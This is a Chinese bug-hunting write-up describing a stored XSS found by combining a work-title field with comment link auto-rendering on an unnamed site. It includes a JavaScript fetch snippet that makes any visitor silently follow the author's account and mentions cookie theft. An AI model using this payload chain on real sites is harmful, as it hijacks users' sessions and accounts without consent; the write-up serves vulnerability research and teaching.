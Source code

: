 

# 记一次有趣的 XSS 漏洞挖掘 - 先知社区

记一次有趣的 XSS 漏洞挖掘

- - -

### 功能点一

首先这里的话是存在一个简单的功能点，就是可以发布自己的一个作品，这里挖掘的时候想法肯定就是插一些 xss 的 payload（因为我们就是挖掘 xss 嘛），所以的话就插了一些 payload 进行测试，意料之中，肯定是没有反应的。但是我们肯定是不能放弃的，因为在挖掘的时候很多漏洞可能是组合在一起产生的，所以我们可以多一些脑洞。  
[![](assets/1709022881-755fe984332edc83ce525df409a87ca2.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240226171833-033caf64-d488-1.jpg)  
这个 name 参数就是我们的作品名称。  
[![](assets/1709022881-0a35eb7f81dad0c479d73c43fe4b518f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172210-850b3e20-d488-1.png)  
发出来的效果就是这么一回事。  
[![](assets/1709022881-01ecc99ccbc8fdba2004f16b0dab1947.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172308-a776ed1a-d488-1.png)  
然后呢，这里没有发现漏洞，那么我们继续测试其他的功能点。

### 功能点二

这个功能点也是很常见的功能，就是评论。评论区一般都是 xss 的高发区也是重点防护区。当然我们也是可以进行一个简单的 payload 测试

[![](assets/1709022881-0d4aec3a9f2d7da208093d6d21f7f581.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172631-2045d8aa-d489-1.png)  
一样的没有任何反应，但是这里的话我在看别人的评论的时候就发现了一个好玩的事情，如果评论的时候，我们评论的内容是该网站的其他作品的链接，那么它会自动转换为该作品的名称，一个 a 标签（外站的链接不行）

[![](assets/1709022881-b34e1ab98549e3064daabf48ebb9755a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172929-8a63bdce-d489-1.png)  
那么这里就是有思路了，把这两个功能点结合一下或许就可以变成一个有趣的 xss 漏洞。把之前我们存在 xss payload 的作品链接在我们的作品底下进行评论

[![](assets/1709022881-7aa2fe1cebb44128f24c8d811d04f9b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226173126-d081eaf6-d489-1.png)

[![](assets/1709022881-aba33890b95f97b43ef318609fb3e9f5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226173215-ed72daee-d489-1.png)  
好！符合预期，这里确实存在 xss 漏洞，那么我们如何把这个危害进行扩大呢，我们都知道 xss 主要是因为 js 的问题，而 js 是可以发起 http 请求的，那么这里我们就有一个思路了（当时也是看了大佬挖掘 b 站 xss 漏洞的启发），我们抓取 api，然后自己编写一段请求代码，只要别人访问我们的作品（或者我们在别人作品底下进行评论），都会触发这段 js 代码从而发起请求。借助一些 xss 在线平台，编写以下代码，通过 fetch 发起请求，让其他用户自动关注我的账号。

```bash
function getHeaders() {
      return {
        "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "accept-language": "zh-CN,zh;q=0.9",
        "cache-control": "max-age=0",
        "content-type": "application/x-www-form-urlencoded",
        "sec-ch-ua": "\"Not?A_Brand\";v=\"8\", \"Chromium\";v=\"108\", \"Google Chrome\";v=\"108\"",
        "sec-ch-ua-mobile": "?0",
        "sec-ch-ua-platform": "\"Windows\"",
        "sec-fetch-dest": "document",
        "sec-fetch-mode": "navigate",
        "sec-fetch-site": "same-site",
        "Content-Type": 'application/json'
      };
    }
    function apiGet() {
      return fetch("https://xxxxxxx/follow", {
        method: "POST",
        headers: getHeaders(),
        mode: "cors",
        body: JSON.stringify({
          "followed_user_id": xxxxxx,
          "state": 1
        })
      }).then(function () {
        console.log("关注成功");
      })
    }
    apiGet()
```

在其他作品底下进行评论  
[![](assets/1709022881-711e56d786790d218e748e9e461a32d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226173827-cb5a4630-d48a-1.png)  
抓包可以看到确实是已经发起请求了，那么坐等消息即可（狗头）  
[![](assets/1709022881-7d2162e93a03c7c5da230b8d7c81cbdd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226173926-ee20e390-d48a-1.png)  
可以的，百万关注不是梦啊，这里其实可以借助 xss 平台进行更多的操作，比如盗取 cookie...  
[![](assets/1709022881-5fde191234e9d79240a4be8979efa6d6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226174103-2807ef68-d48b-1.png)

### 总结

在挖掘一些漏洞的时候我们的思路需要发散一些，碰到功能点我们可以去思考开发者开发这个功能是想实现什么东西，多个不同的功能点是不是组合在一些会产生一些特殊的化学反应。
